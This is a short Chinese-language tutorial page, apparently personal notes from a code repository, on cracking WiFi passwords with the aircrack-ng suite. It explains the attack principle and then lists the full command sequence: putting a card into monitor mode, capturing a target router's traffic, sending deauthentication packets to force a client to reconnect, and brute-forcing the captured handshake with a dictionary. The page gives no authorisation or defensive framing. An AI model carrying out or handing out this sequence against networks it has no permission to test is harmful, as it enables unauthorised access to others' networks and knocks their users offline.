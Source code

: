 # aircrack-ng

## 安装

[aircrack-ng](http://www.aircrack-ng.org)

## 原理

1. 网卡监听
2. 扫描周围wifi
3. 选择监听目标wifi
4. 发起攻击，模拟wifi路由器单播，向目标用户发出断开连接请求
5. 目标用户断开连接并自动重连，获取4次握手包
6. 4次握手包含有加密密码
7. 暴力破解，穷举字典

![ngstep.jpg](ngstep.jpg)

## aircrack-ng使用

1. 查看本机无线网卡

`ifconfig`

2. 激活网卡到monitor模式

`sudo airmon-ng start wlan0`

3. 探测无线网络

`sudo airodump-ng wlan0`

4. 监听频道，抓取被选定路由器数据包

`sudo airodump-ng --ivs -w linuxcpp -c 6 wlan0mon`

捕获到的内容写入 linuxcpp-0x.ivs 文件

5. 发起deauth包，使客户端重连路由器

`sudo aireplay-ng -0 1 -a 路由器MAC -h 客户端MAC wlan0mon`

6. 穷举字典

`aircrack-ng -w dict linuxcpp-01.ivs`

- dict 字典文件
- linuxcpp-01.ivs 握手包数据文件

## 编写字典

按特点生成字典

## 参考

- wifi密码破解-Linux工具篇 虚竹 ITCAST